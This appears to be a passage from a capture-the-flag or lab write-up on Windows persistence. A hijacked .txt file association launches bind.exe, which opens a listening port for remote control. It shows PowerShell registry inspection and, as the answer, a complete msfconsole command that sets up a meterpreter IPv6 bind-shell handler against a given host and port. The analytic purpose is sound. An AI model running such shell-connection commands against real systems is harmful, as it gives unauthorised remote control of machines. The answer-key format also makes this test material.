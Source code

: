 The default program for text files can also be identified with powershell by typing
`cd HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\FileExts\.txt` and then `gp OpenWithList`:

```powershell
(default)              c:\users\vm-user\appdata\local\temp\bind.exe
```

**ANALYSIS:**

The program opens a port on the system, is configured to start when the
user executes any text file, and allows an attacker to connect to the
open port and control the victim host using the provided command shell.

**ANSWER:**

This persistence method allows an attacker to obtain a meterpreter ipv6
bind shell with:

```bash
msfconsole -x 'use multi/handler;set payload windows/x64/meterpreter/bind_ipv6_tcp;set LPORT 65000;set RHOST 2602:304:af32:ec29:24b9:91e3:a0c0:5369;run'
```
